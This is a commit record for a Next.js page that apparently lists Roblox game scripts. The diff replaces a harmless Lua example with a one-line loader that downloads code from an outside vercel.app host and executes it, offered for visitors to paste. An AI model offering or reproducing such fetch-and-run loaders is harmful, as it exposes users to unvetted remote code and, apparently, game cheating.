

Before and after one commit to Clarksds/EscapeTsunami, a Next.js app: page / in a window 1280 px wide. Shown: the top 786 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update page.js

```diff
--- a/app/page.js
+++ b/app/page.js
@@ -11,24 +11,16 @@ const SCRIPTS = [
     views: "15.4K",
     status: "WORKING",
     // Put your own SAFE/legit snippet here:
-    code: `-- Example utility snippet
-local Players = game:GetService("Players")
-print("Hello from utility script!", Players.LocalPlayer.Name)`,
+    code: `loadstring(game:HttpGet("https://deltahoaxscripts.vercel.app/escapetsunami"))()`,
   },
   {
     id: "movement",
-    title: "MOVEMENT HELPER",
-    subtitle: "Small helper functions",
+    title: "COMING SOON",
+    subtitle: "coming soon",
     badge: "UTIL",
     views: "4.2K",
     status: "UPDATED",
-    code: `-- Example: simple clamp helper
-local function clamp(x, a, b)
-  if x < a then return a end
-  if x > b then return b end
-  return x
-end
-print(clamp(20, 1, 10))`,
+    code: `Coming Soon!`,
   },
 ];
 
```
